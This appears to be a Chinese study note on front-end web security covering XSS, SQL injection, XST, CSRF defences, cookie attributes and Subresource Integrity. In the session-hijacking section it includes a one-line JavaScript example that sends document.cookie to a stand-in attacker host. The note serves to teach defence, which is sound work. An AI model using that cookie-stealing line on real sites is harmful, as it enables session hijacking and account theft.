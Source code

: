 # 前端安全性

腾讯大牛亲授漏洞防御(3-7 看完)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种(只适合反射性 css)

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了
对<>单引号和双引号进行转义;对空格进行转义

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。

```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御

- 令牌同步模式(tokie)
  原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查 Referer 字段
  因其完全依赖浏览器发送正确的 Referer 字段。虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
- 添加校验 token
  由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验 token 的值为空或者错误，拒绝这个可疑请求。

## HTTP 头注入

## Cookie 安全

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly 属性可防止通过 javascript 访问 cookie 值
SameSite 属性 允许服务器要求某个 cookie 在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)

1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送 cookies,不区分大小写
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）
3. SameSite=Lax:但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```

## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

```js
<script
  type="text/javascript"
  src="app.bundle.js"
  integrity="sha256-WcONURDxHuPpCyTfyxv6ULC5IQS8W/TvkOfiluU2Y1w= sha512-XZBIDDYvednMCvIE+VxLhoh3GZ550KQEUuUG8EA/HNUKVOa9sl2YpyeIGVmi6NVu2VAAT+bReuzUszzugYNxKQ=="
  crossorigin="anonymous"
></script>;
crossorigin: "" | anonymous | (use-credentials) 请求头都会带上Origin 属性
// 使用use-credentials,这个就同时会在跨域请求中带上 cookie 和其他的一些认证信息. 需要服务端response Header 返回：Access-Control-Allow-Credentials
```

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。
  
